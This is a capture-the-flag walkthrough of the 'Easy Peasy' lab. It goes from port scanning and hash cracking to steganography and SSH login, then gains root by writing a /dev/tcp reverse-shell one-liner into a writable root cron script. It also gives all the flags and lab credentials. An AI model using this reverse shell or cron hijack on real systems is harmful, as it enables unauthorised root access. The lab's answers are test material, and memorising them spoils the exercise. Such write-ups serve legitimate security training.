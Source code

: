 ## Easy Peasy 

> David 20th April 2022

--------------------------

# Ports Open
10.10.217.195

```
nmap -sVC 10.10.217.195 -oN nmap/initial

80, 6498, 65524
```

# Find the first flag with gobuster
```
gobuster dir -u http://10.10.217.195/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

Found hidden/whatever/

http://10.10.217.195/hidden/whatever/

After checking source "ZmxhZ3tmMXJzN19mbDRnfQ==" this was found decoded with base64 it is flag{f1rs7_fl4g}
```

# Find the second flag

>Check the other open ports 


10.10.217.195:65524/robots.txt

gives us a hash in the user agent as Allow.

```
a18672860d0510e5ab6699730763b250
```
https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250 I used md5hashing to crack this hash after failing with John/crackstation

flag{1m_s3c0nd_fl4g}

# Find the third flag

10.10.217.195:65524 shows the third flag in the website 

# Hidden Directory

After checking the source code of the apache website we find a hash.

<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p> Encoded with base62
```
/n0th1ng3ls3m4tt3r
```

# Crack the hash for the password

After checking source for /n0th1ng3ls3m4tt3r. You are greeted with another hash.
encoded with GOST.
```
john --wordlist=/tmp/easypeasy.txt --format=gost 4john.txt 
```
`mypasswordforthatjob`

# What is the password for SSH 
After THM hints about hiding something in the image i checked for hidden data in the jpg.

Using `steghide extract -sf binarycodepixabay.jpg` i got this.

```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001 

[iconvertedmypasswordtobinary]
```

# User Flag

ssh boring@$IP -p 6498
passphrase: iconvertedmypasswordtobinary

cat user.txt
`flag{n0wits33msn0rm4l}`

# Priv Esc with CRONJOBS

cat /etc/crontab

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
.mysecretcronjob.sh is writable.

after adding a reverse shell script in. `0<&196;exec 196<>/dev/tcp/10.8.72.90/4444; sh <&196 >&196 2>&196`

i set up a netcat listener with nc -lnvp 4444

This gave me access to the machine as root.

cd /root
ls -la
```
ls -la                                                                                                              
total 40                                                                                                            
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root  883 Jun 15  2020 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
cat .root.txt     
flag{63a9f0ea7bb98050796b649e85481845}
```